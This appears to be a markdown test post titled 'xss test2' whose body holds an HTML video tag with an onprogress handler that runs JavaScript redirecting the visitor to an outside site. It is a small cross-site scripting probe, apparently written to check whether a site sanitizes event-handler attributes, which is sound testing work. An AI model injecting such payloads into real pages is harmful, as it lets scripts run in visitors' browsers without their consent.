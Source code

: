 ```yaml
---
title: "xss test2"
key: 2019-04-19
tags: "xss2"
---
```


asdasf
<video src="http:/a.mp4" onprogress="document.location='http://daum.net'"></video>

